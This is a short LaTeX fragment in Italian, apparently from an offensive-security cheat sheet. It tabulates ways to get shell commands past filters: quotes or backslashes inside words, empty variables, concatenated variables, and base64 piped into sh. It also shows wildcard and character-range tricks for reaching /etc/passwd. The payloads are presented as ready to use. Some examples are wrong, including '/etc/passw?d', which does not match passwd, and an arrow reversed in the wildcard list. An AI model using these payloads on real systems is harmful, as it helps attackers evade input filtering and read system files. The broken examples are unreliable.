 \documentclass[12pt,a4paper]{report}
\begin{document}
	\begin{table}[h!]
		\centering
		\begin{tabular}{|l|p{6cm}|l|}
			\hline
			\textbf{Tecnica Shell} & \textbf{Meccanismo} & \textbf{Esempio Risultante} \\ \hline
			\textbf{Apici intermedi} & Vengono rimossi dalla shell prima dell'esecuzione dell'istruzione & \texttt{c'a't /etc/passwd} \\ \hline
			\textbf{Backslash} & Invalida il matching statico della stringa sulle regex di controllo & \texttt{c\textbackslash at /etc/passwd} \\ \hline
			\textbf{Variabili Vuote} & Sfrutta i caratteri \texttt{\$@} o variabili d'ambiente non istanziate & \texttt{ca\$@t /etc/passwd} o \texttt{ca\$\{x\}t} \\ \hline
			\textbf{Concatenazione} & Definizione ed esecuzione sequenziale di variabili locali & \texttt{X=ca; Y=t; \$X\$Y /etc/passwd} \\ \hline
			\textbf{Base64} & Il comando viaggia interamente offuscato e viene decodificato al volo & \texttt{echo '...' \textbar{} base64 -d \textbar{} sh} \\ \hline
		\end{tabular}
		\caption{Tecniche di offuscamento delle stringhe dei comandi.}
	\end{table}
	
	\subsubsection{C. Bypass del Path / Nome File (Evasione di "/etc/passwd")}
	Se il filtro blocca l'accesso a file specifici o interdice l'uso della barra \texttt{/}:
	\begin{itemize}
		\item \textbf{Wildcard (\texttt{*} e \texttt{?}):} La shell expands i caratteri prima di eseguire il comando.
		\begin{itemize}
			\item \texttt{/etc/pass*} $\rightarrow$ punta a \texttt{/etc/passwd}
			\item \texttt{/etc/passw?d} $\rightarrow$ punta a \texttt{/etc/passwd}
			\item \texttt{/usr/bin/id} $\rightarrow$ \texttt{/usr/bin/i?}
		\end{itemize}
		\item \textbf{Range di caratteri (\texttt{[...]}):}
		\begin{itemize}
			\item \texttt{/etc/passw[a-z]d} $\rightarrow$ punta a \texttt{/etc/passwd}
		\end{itemize}
	\end{itemize}
	
\end{document}
